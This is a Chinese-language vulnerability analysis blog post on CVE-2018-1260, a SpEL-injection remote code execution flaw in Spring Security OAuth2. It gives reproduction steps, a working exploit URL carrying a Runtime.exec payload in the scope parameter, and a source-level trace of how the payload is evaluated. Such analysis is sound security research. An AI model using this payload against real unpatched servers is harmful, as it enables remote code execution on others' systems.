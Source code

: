 ```yaml
---
layout: mypost
title: Spring Security OAuth2 远程代码执行漏洞(CVE-2018-1260)
categories: [漏洞分析]
---
```


## **一：漏洞简介**

在Spring Security OAuth 2.x老的版本中，恶意用户可以向授权服务器发起授权请求，当转发至授权审批终端（Approval Endpoint）时，会导致远程代码执行漏洞的攻击。

## 二：**利用条件**

1、被攻击端作为授权服务器时（如使用了注解）

2、使用了默认审批终端，或重写的审批终端逻辑中使用等对输出内容进行SPEL表达式解析

3、未配置Scopes

## 三：**影响版本**

Spring Security OAuth 2.3到2.3.2

Spring Security OAuth 2.2到2.2.1

Spring Security OAuth 2.1到2.1.1

Spring Security OAuth 2.0到2.0.14

## 四：**漏洞复现**

使用github上已有的demo：https://github.com/wanghongfei/spring-security-oauth2-example

Clone下来后导入idea待全部依赖下载完成。

然后修改cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java中的第67行为：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }
```

然后根据github中的readme中的介绍操作数据库相关（包括：创建库、创建表、添加数据等等）

![CVE-2018-1260_1](CVE-2018-1260_1.png)

然后修改application.properties中的mysql数据库相关的信息。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_2.png)

然后启动环境并访问：

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

会重定向到登陆页面，随便输入用户名密码后点击登陆

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_3.png)

触发payload:

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_4.png) 



## 五：漏洞分析

Spring Security OAuth在org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint对用户的认证请求进行处理，其中对应的URL是@RequestMapping({"/oauth/authorize"})，其中有一处关键的地方是在于this.oauth2RequestValidator.validateScope(authorizationRequest, client);，此代码是用于对用户传入的scope进行认证。通过动态分析来分析对scope的认证过程以及绕过方法。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_5.png)

跟踪进入到org.springframework.security.oauth2.provider.request.DefaultOAuth2RequestValidator:validateScope()方法中，代码如下：

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_6.png)

调用的是DefaultOAuth2RequestValidator的私有validateScope()方法

其中的参数如下：

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_7.png)

通过动态调试发现，`requestScopes`是传入的rce的payload，是`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`不为null，而`clientScopes`是我们在搭建环境时在`OAuthSecurityConfig`设置的，值为空。所以在这里我们就绕过了`validateScope()`的检测。

最后我们回到主函数`@RequestMapping({"/oauth/authorize"})`中，最终出现会进入到121行中的`return this.getUserApprovalPageResponse(model, authorizationRequest, (Authentication)principal);`中。跟踪`getUserApprovalPageResponse()`进入到`org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint:getUserApprovalPageResponse()`

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_8.png)

当执行到`new ModelAndView(this.userApprovalPage, model);`时，此时的各项参数如下所示：

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_9.png)

所以程序内部会跳转到forward:/oauth/confirm_access。

继续执行，执行到org.springframework.security.oauth2.provider.endpoint.WhitelabelApprovalEndpoint:getAccessConfirmation()。getAccessConfirmation()对forward:/oauth/confirm_access进行响应处理。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_10.png)

进入到创建模板函数createTemplate()中

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_11.png)

其中model和request的参数信息如下：

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_12.png)

根据参数信息，函数会执行到`template = template.replace("%scopes%", this.createScopes(model, request)).replace("%denial%", "");`，跟踪`this.createScopes()`进一步分析。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_13.png)

函数的工作很明确，获取到scopes的内容拼接成为字符串返回。最终得到的builder.toString()的结果是：

```
<ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>
```

返回到createTemplate()函数中，最终template()返回的结果是:

```
<html><body><h1>OAuth Approval</h1><p>Do you authorize '${authorizationRequest.clientId}' to access your protected resources?</p><form id='confirmationForm' name='confirmationForm' action='${path}/oauth/authorize' method='post'><input name='user_oauth_approval' value='true' type='hidden'/><input type='hidden' name='${_csrf.parameterName}' value='${_csrf.token}' /><ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul><label><input name='authorize' value='Authorize' type='submit'/></label></form></body></html>
```

可以看到在template模板中已经携带有我们的payload，`scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`。

执行完`createTemplate()`函数之后，程序回到`getAccessConfirmation()`中，程序最后执行到`return new ModelAndView(new SpelView(template), model);`

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_14.png)

进入到new SpelView(template)中，new SpelView()会对template中的spel表达式解释执行最终造成rce。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_15.png)

`Expression expression = SpelView.this.parser.parseExpression(name);`会对template中的内容进行解析包括scope，最终造成rce。

![](https://github.com/Artio-Li/Artio-Li.github.io/blob/main/images/CVE-2018-1260_16.png)

## 六：参考链接

[**https://blog.spoock.com/2018/05/13/cve-2018-1260/**](https://blog.spoock.com/2018/05/13/cve-2018-1260/)

## 七：个人github

https://artio-li.github.io/

